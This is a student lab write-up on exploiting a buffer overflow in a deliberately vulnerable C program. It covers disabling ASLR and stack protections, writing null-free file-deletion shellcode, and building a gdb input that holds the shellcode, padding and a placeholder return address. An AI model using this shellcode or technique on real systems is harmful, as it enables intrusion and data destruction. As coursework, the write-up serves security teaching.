






# 21110755, Phạm Văn Cao

#Lab#2 Inject code to delete file: file_del.asm is given on github 

## I. Setup enviroment.
The command `sudo sysctl -w kernel.randomize_va_space=0` is used to disable Address Space Layout Randomization (ASLR) on the system.The image below shows the execution of this command.

The code has a **buffer overflow** vulnerability because `strcpy()` is used without checking the length of the input string, which can cause memory overwrite if the input is too long.

We then proceed to compile the program using the following options.
The command `gcc -g vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2` compiles the `vuln.c` file with several flags:
- `-g` includes debugging information.
- `-fno-stack-protector` disables stack protection, making the program more vulnerable to buffer overflows.
- `-z execstack` allows the stack to be executable, which can enable the execution of injected code.
- `-mpreferred-stack-boundary=2` changes the stack alignment to 4 bytes, which can influence how memory is allocated.

Creat link to zsh instead of default dash to turn off bash countermeasures of Ubuntu 16.04:
sudo ln -sf /bin/zsh /bin/sh .

Based on the sample assembly file, we compile it and view it in hexadecimal format to observe the output.

We observe that the string contains `\x00` (null bytes), which can prematurely terminate the shellcode. Therefore, i create new file `file_del1.asm` to prevent the inclusion of null bytes and ensure the shellcode executes correctly.

string shell code: \xeb\x15\x31\xc0\xb0\x05\x04\x05\xbb\x7c\x80\x04\x08\xcd\x80\x31\xc0\xb0\x02\x2c\x01\xcd\x80\xe8\xe6\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65

In the `objdump` analysis of `file_del1`, compiled from `file_del.asm`,

 we see the disassembled code and hexadecimal representation of the file. The string `dummyfile` is stored at address `0x804807c`. However, this address will change once the shellcode is inserted into the buffer. Thus, we need to adjust the address to match the new location of the string in the buffer.

in vuln.c program we have stack frame

string shell code have length = 37 bytes
space length = 68 - 37 =  31 in this 68 are sum of (buf + EBP)
and a string to recognize return address : '\xff\xff\xff\xff'
So, we have prestring buffer: 
r $(python -c "print('\xeb\x15\x31\xc0\xb0\x05\x04\x05\xbb\x7c\x80\x04\x08\xcd\x80\x31\xc0\xb0\x02\x2c\x01\xcd\x80\xe8\xe6\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65'+'A'*31+'\xff\xff\xff\xff')")

